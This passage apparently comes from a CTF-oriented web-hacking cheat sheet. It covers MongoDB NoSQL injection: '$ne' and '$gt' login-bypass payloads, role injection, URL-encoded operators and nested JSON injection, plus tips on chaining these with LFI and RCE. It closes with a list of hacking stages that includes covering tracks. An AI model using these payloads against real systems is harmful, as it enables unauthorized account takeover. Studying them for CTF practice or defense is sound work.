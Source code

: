 Monitor responses for variations.

---

### 🔐 Privilege Escalation / Admin Hijack

If user exists:
```bash
username=admin&password[$ne]=invalid
```
If login succeeds, you’ve confirmed user `admin` exists.

To bypass:
```bash
username=admin&password[$gt]=
```

If admin panel access is via role:
```bash
role[$eq]=admin
```

---

### 🧨 Escaping Filters

Bypass weak sanitization:
- Use array parameters: `username[$in][]`
- Encode special characters: `%24ne`, `%24regex`
- JSON nested injection: 
```json
{"user":{"$gt":""}}
```

---

### 🎯 Final CTF Tips:

- **Check login, search, filter, and API endpoints**—anywhere user input reaches MongoDB.
- **Explore headers (`X-User`, `X-Auth`)** for NoSQL injection in hidden APIs.
- **Always enumerate usernames before attempting bruteforce**.
- **Look for JavaScript-enabled backends to exploit `$where`**.
- **Chain NoSQLi with LFI, RCE, or misconfigured MongoDB access**.

---


## Web Hacking

### Five Stages of Web Hacking

```
    * Reconnaissance
    * Scanning and Enumeration
    * Gaining Access
    * Maintaining Access
    * Covering Tracks
```

---